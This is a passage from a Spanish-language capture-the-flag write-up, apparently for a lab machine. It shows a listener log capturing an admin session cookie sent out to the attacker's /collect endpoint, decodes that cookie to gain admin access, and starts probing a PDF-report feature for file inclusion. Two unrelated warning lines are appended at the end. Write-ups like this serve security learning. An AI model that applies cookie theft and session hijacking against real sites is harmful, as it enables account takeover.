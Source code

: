 ```shell
10.129.230.246 - - [29/Jul/2024 19:36:55] "GET /collect?c=user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5 HTTP/1.1" 404
```

Tenemos una cookie distinta, y si la decodificamos de base64.
```shell
echo "eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5" | base64 -d
{"user_id": 1, "username": "admin", "role": "admin"}|34822333d444ae0e4022f6cc679ac9d26d1d1d682c59c61cfbea29d776d589d9
```

Ahora podemos acceder al panel de administración como el usuario admin.

![Write-up Image](images/Screenshot_4.png)

## Local File Inclusion
En este panel veo una funcionalidad que me llama la atención. `/create_pdf_report` . Lo primero que pienso es en un SSRF pero primero hay que enumerar que hace esta funcionalidad.

![Write-up Image](images/Screenshot_5.png)


[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when
[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when